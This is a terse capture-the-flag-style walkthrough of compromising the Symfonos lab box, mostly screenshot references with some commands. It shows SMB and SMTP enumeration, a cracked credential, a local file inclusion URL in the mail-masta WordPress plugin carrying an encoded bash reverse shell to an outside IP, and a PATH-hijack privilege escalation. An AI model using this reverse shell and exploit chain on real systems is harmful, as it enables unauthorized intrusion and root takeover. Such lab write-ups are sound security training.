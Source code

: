 
````bash
crackmapexec smb 192.168.1.38 -u '' -p '' --shares
````

![Pasted image 20250221152211.png](assets/Pasted%20image%2020250221152211.png)
![Pasted image 20250221152237.png](assets/Pasted%20image%2020250221152237.png)
usuarios
![Pasted image 20250221152431.png](assets/Pasted%20image%2020250221152431.png)
usuarios validos
![Pasted image 20250221152653.png](assets/Pasted%20image%2020250221152653.png)
`helios:qwerty`
ahora podemo ver el share helios
![Pasted image 20250221153018.png](assets/Pasted%20image%2020250221153018.png)
![Pasted image 20250221174949.png](assets/Pasted%20image%2020250221174949.png)

commandos posibles en el server 25

````bash
sudo nmap -p25 -script 'smtp-*' 192.168.1.38
````

![Pasted image 20250221154608.png](assets/Pasted%20image%2020250221154608.png)

usuarios en el equipo
![Pasted image 20250221160232.png](assets/Pasted%20image%2020250221160232.png)
`_apt, backup, bin, daemon, ftp, games, gnats, irc, list, lp, mail, man, messagebus, mysql, news, nobody, postfix, postmaster, proxy, sshd, sync, sys, systemd-bus-proxy, systemd-network, systemd-resolve, systemd-timesync, uucp, webmaster, www, www-data`

![Pasted image 20250221203602.png](assets/Pasted%20image%2020250221203602.png)
![Pasted image 20250221212832.png](assets/Pasted%20image%2020250221212832.png)

![Pasted image 20250221215908.png](assets/Pasted%20image%2020250221215908.png)

````url
view-source:http://symfonos.local/h3l105/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/mail/helios&command=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.1.45%2F4444%200%3E%261%22
````

![Pasted image 20250221220352.png](assets/Pasted%20image%2020250221220352.png)
![Pasted image 20250221221001.png](assets/Pasted%20image%2020250221221001.png)
now we can connect to the database 'wordpress' with this creds
![Pasted image 20250221225421.png](assets/Pasted%20image%2020250221225421.png)
lets try to crack it, but we cant, so enum more, there is a SUID file thats looks quite interesting, we can check the printables characters, looks like is doing a curl, but without the absolute path, so we can create "curl" to preform a "path hijacking"

````bash
export PATH=.:$PATH
chmod +x curl
/opt/statuscheck
````

![Pasted image 20250221231235.png](assets/Pasted%20image%2020250221231235.png)
nice
![Pasted image 20250221231252.png](assets/Pasted%20image%2020250221231252.png)
